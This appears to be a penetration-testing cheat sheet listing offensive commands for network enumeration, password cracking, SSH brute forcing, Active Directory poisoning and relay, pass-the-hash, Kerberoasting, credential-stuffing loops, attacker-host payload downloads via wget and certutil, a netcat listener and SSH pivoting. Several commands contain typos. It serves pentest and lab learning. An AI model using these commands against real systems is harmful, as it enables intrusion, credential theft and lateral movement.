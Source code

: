 ## General

rm -rf /path/to/directory

## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

(Example when providing a txt based file to scan -iL 'inlist' must be used)  
nmap -p 445 -iL targets.txt

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

(directory hunting) ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -v | grep FUZZ 

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  
    if a password has already been cracked it may reside in the potfile on --show

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

##Linux wget and curl command

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

### Windows system enumeration
systeminfo

hostname

(Patching enum) wmic qfe  
(Patching enum) wmic qfe get Caption,Description,HotFixID,InstalledOn  

(Driver enum) wmic logicaldisk get caption,description,providername  

## Listener
nc -nlvp [port]

## Directory hosting
python2 - python -m SimpleHTTPServer

python3 - python3 -m http.server 8080

## Active Directory Attacks  

sudo responder -I tun0 -dwP | tun0 here is used when we are getting access via VPN

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv  

(Relays) SMB attack  
sudo responder -I eth0 -dPv  

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

(PtH with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -H aad3b435b51404eeaad3b435b51404ee:31dcfce0d16ae931b73c59d7e0c089c0  

(PtP with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -p 'password'  

(Enumerate service principile names with their krbtgs (kerberos ticket granting service hash) - useful in AD envs when SPN objects are not set to read only.  
Impacket-GetUserSPNs -dc-ip <10.10.10.0> domain/username:password -request  

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 
  
## Bash; 'for' loops  

for in X variable varibale varibale; do COMMAND_LINE_ACTION $X; done  

(Example IP scan without text file list - ideal for small list, any large lists just use a .txt file)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do nmap -T4 -sV -A --top-ports 500 $ip; done  

(Example crackmap SMB enumeration - ideal for small list, any large lists just use a .txt file for username and passwords)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do crackmapexec smb $ip -u username -p 'password'; done  

(Example crackmap SMB credential 'sniper' stuffing password - small list)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do for in user Admin Administrator Username; do crackmapexec smb $ip -u $user -p password --local-auth; done; done  

(Example using .txt files within 'for' loops of crackmap SMB auth) - note: when using files for crackmapexec -P must be used instead of -p  
for user in Admin Administrator Username; do crackmapexec smb 10.10.10.1 -u $user -P passwordfile.txt --local-auth; done  

## RDP  

xfreerdp - xfreerdp /u:Administrator /p:'Password' /v:10.10.10.1

## Pivoting  

proxychains / conf files located at /etc/proxychains.conf  
ssh tunnel throuhg 155.5, with connectioned dropped in the background.
ssh -f -N -D 9050 -i encrypted_rsa1.key adminuser@10.10.155.5

shuttle  

chisell  


